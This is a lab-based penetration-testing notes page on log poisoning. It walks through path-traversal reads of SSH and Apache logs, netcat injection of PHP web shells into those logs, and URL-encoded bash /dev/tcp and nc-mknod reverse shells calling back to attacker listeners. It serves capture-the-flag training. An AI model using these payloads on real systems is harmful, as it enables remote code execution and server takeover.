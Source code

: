 ```yaml
---
layout: default
title: Log Poisoning
parent: Web Exploits
nav_order: 2
---
```


# Log Poisoning

---

## SSH Auth Log Poisoning

Check if _/var/log/auth.log_ is visible.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log
```

![ssh_log](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_log.png)

Process for testing SSH auth log poisoning and RCE:

1. Netcat verbose to the target on port 22
2. Send malicious php code
3. Verify SSH auth log poisoning successful
4. Execute RCE with PHP cmd shell via poisoned log

Send PHP cmd shell through SSH via Netcat.

```bash
# netcat verbose to target on port 22
nc -nv 192.168.202.80 22

# send malicious php code
pwn_code/<?php passthru($_GET['cmd']); ?>
```

Verify SSH auth log is poisoned.

![ssh_poison](../../../assets/images/ctfs/proving_grounds/ha_natraj/ssh_poison.png)

Execute RCE with PHP cmd shell via poisoned log.

```bash
URL: http://192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=id
```

![cmd_rce](../../../assets/images/ctfs/proving_grounds/ha_natraj/cmd_rce.png)

Get reverse shell with URL encoded bash one-liner

```bash
URL: 192.168.202.80/console/file.php?file=../../../../../../../var/log/auth.log&cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

![rev_shell](../../../assets/images/ctfs/proving_grounds/ha_natraj/rev_shell.png)

## Apache Access Log Poisoning

Start by poisoning the Apache2 access log with a PHP web shell.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/solstice]
└─$ nc -nv 192.168.222.72 80
(UNKNOWN) [192.168.222.72] 80 (http) open
GET /<?php system($_GET['cmd']); ?>
HTTP/1.1 400 Bad Request
Date: Sat, 04 Nov 2023 03:37:05 GMT
Server: Apache/2.4.38 (Debian)
Content-Length: 301
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at 127.0.0.1 Port 80</address>
</body></html>

```

View _/var/log/apache2/access.log_ to see the 400 GET request we sent through netcat.

![log](../../../assets/images/ctfs/proving_grounds/solstice/log.png)

Test RCE with the PHP web shell in the access log.

```bash
URL: http://192.168.222.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=id
```

![rce](../../../assets/images/ctfs/proving_grounds/solstice/rce.png)

Use _revshellgen_ to generate a nc-mknod reverse shell one-liner.

```bash
# Generate reverse shell-oneliner
revshellgen -i 192.168.45.191 -p 9001 -t nc-mknod | tail -n 1

# URL encode the payload
urlencode "rm /tmp/l;mknod /tmp/l p;/bin/sh 0</tmp/l | nc 192.168.45.191 9001 1>/tmp/l"

# Run the following URL to get a reverse shell
URL: 192.168.170.72:8593/index.php?book=../../../../../var/log/apache2/access.log&cmd=rm%20%2Ftmp%2Fl%3Bmknod%20%2Ftmp%2Fl%20p%3B%2Fbin%2Fsh%200%3C%2Ftmp%2Fl%20%7C%20nc%20192.168.45.191%209001%201%3E%2Ftmp%2Fl
```

After executing the payload in our PHP web shell we get a reverse shell on our netcat listener.

![shell](../../../assets/images/ctfs/proving_grounds/solstice/shell.png)
